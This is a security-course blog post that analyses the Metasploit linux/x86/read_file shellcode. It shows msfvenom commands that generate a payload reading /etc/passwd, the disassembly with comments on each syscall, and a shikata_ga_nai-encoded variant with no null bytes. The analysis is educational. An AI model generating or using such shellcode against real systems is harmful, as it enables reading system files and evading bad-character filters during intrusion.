 ```yaml
---
layout: post
title:  "SLAE Assignment 5.2 - Msfvenom linux/x86/read_file shellcode Analysis"
date:   2017-04-25
categories: certification
---
```

<br />
Student **SLAE - 891**  
Github: [https://github.com/phackt/slae](https://github.com/phackt/slae)  
[http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)  
  
## Assignment 5.2:  
  
**Our Goal:**  
> *Take up at least 3 linux/x86 shellcodes using Msfpayload (now Msfvenom)*
 - *Use GDB/Ndisasm/Libemu to dissect the functionality of the shellcode*
 - *Present your analysis*  
  
Hello everybody,  
  
Here we are for the second analysis of our msf shellcodes.  Let's perform the analysis for the **linux/x86/read_file** shellcode:  
```bash
# msfvenom -p linux/x86/read_file --payload-options
Options for payload/linux/x86/read_file:


       Name: Linux Read File
     Module: payload/linux/x86/read_file
   Platform: Linux
       Arch: x86
Needs Admin: No
 Total size: 62
       Rank: Normal

Provided by:
    hal

Basic options:
Name  Current Setting  Required  Description
----  ---------------  --------  -----------
FD    1                yes       The file descriptor to write output to
PATH                   yes       The file path to read

Description:
  Read up to 4096 bytes from the local file system and write it back 
  out to the specified file descriptor
...
```
  
Let's examine the generated shellcode:  
```bash
# msfvenom -p linux/x86/read_file PATH=/etc/passwd -f raw | ndisasm -u -
No platform was selected, choosing Msf::Module::Platform::Linux from the payload
No Arch selected, selecting Arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 73 bytes

00000000  EB36              jmp short 0x38
00000002  B805000000        mov eax,0x5
00000007  5B                pop ebx
00000008  31C9              xor ecx,ecx
0000000A  CD80              int 0x80
0000000C  89C3              mov ebx,eax
0000000E  B803000000        mov eax,0x3
00000013  89E7              mov edi,esp
00000015  89F9              mov ecx,edi
00000017  BA00100000        mov edx,0x1000
0000001C  CD80              int 0x80
0000001E  89C2              mov edx,eax
00000020  B804000000        mov eax,0x4
00000025  BB01000000        mov ebx,0x1
0000002A  CD80              int 0x80
0000002C  B801000000        mov eax,0x1
00000031  BB00000000        mov ebx,0x0
00000036  CD80              int 0x80
00000038  E8C5FFFFFF        call dword 0x2
0000003D  2F                das
0000003E  657463            gs jz 0xa4
00000041  2F                das
00000042  7061              jo 0xa5
00000044  7373              jnc 0xb9
00000046  7764              ja 0xac
00000048  00                db 0x00
```
  
So let's comment our shellcode instructions:  
```nasm
    jmp short 0x38  ; jmp/call/pop technique
    mov eax,0x5     ; int open(const char *pathname, int flags);
    pop ebx         ; pop the @ of the string starting at 0x3D
    xor ecx,ecx     ; clears out ecx
    int 0x80        ; open syscall
    mov ebx,eax     ; file descriptor result of the open syscall
    mov eax,0x3     ; ssize_t read(int fd, void *buf, size_t count);
    mov edi,esp     ; 
    mov ecx,edi     ; pointer to a valid stack address
    mov edx,0x1000  ; size of buffer that will be read and buffered to the stack
    int 0x80        ; read syscall
    mov edx,eax     ; result of read and third argument of write function
    mov eax,0x4     ; ssize_t write(int fd, const void *buf, size_t count);
    mov ebx,0x1     ; standard output / ebx is still pointing to the buffer on stack
    int 0x80        ; write syscall
    mov eax,0x1     ; void _exit(int status);
    mov ebx,0x0     ; 0 everything is OK
    int 0x80        ; exit syscall
    call dword 0x2  ; pushing the @ of the following bytes (/etc/passwd) on the stack
    das
    gs jz 0xa4      
    das
    jo 0xa5
    jnc 0xb9
    ja 0xac
    db 0x00         ; null byte ending string
```
  
The jmp/call/pop technique will set the address of the following string in EBX:  
```bash
# echo -e \\x2F\\x65\\x74\\x63\\x2F\\x70\\x61\\x73\\x73\\x77\\x64
/etc/passwd
```
  
Once again you can generate a shellcode (quite more complex) without null bytes with the following command:  
```bash
# msfvenom -p linux/x86/read_file PATH=/etc/passwd -f raw -b \x00 | ndisasm -u -
No platform was selected, choosing Msf::Module::Platform::Linux from the payload
No Arch selected, selecting Arch: x86 from the payload
Found 10 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 100 (iteration=0)
x86/shikata_ga_nai chosen with final size 100
Payload size: 100 bytes

00000000  BAF7BD341A        mov edx,0x1a34bdf7
00000005  DBDF              fcmovnu st7
00000007  D97424F4          fnstenv [esp-0xc]
0000000B  5E                pop esi
0000000C  29C9              sub ecx,ecx
0000000E  B113              mov cl,0x13
00000010  83EEFC            sub esi,byte -0x4
00000013  31560F            xor [esi+0xf],edx
00000016  0356F8            add edx,[esi-0x8]
00000019  5F                pop edi
0000001A  C1                db 0xc1
0000001B  F1                int1
0000001C  3018              xor [eax],bl
0000001E  2F                das
0000001F  06                push es
00000020  3C58              cmp al,0x58
00000022  6B37F5            imul esi,[edi],byte -0xb
00000025  95                xchg eax,ebp
00000026  0BBEC69E0FC1      or edi,[esi-0x3ef0613a]
0000002C  C8DE8626          enter 0x86de,0x26
00000030  41                inc ecx
00000031  27                daa
00000032  22A841D85364      and ch,[eax+0x6453d841]
00000038  E151              loope 0x8b
0000003A  91                xchg eax,ecx
0000003B  CE                into
0000003C  E561              in eax,0x61
0000003E  16                push ss
0000003F  2F                das
00000040  5E                pop esi
00000041  60                pushad
00000042  16                push ss
00000043  2F                das
00000044  A0AE9697A1        mov al,[0xa19796ae]
00000049  3097E71A3097      xor [edi-0x68cfe519],dl
0000004F  E75C              out 0x5c,eax
00000051  FC                cld
00000052  17                pop ss
00000053  0F9901            setns [ecx]
00000056  E82F0E9B63        call dword 0x639b0e8a
0000005B  B37F              mov bl,0x7f
0000005D  13ED              adc ebp,ebp
0000005F  40                inc eax
00000060  0CA4              or al,0xa4
00000062  89                db 0x89
00000063  A6                cmpsb
```
  
We can see, through the analysis of all of these shellcodes, the power of msfvenom while dynamically generating shellcodes.  
    
Hope you enjoyed this post, see you soon for the second msf shellcode analysis.  
  
[Phackt](https://twitter.com/phackt_ul)
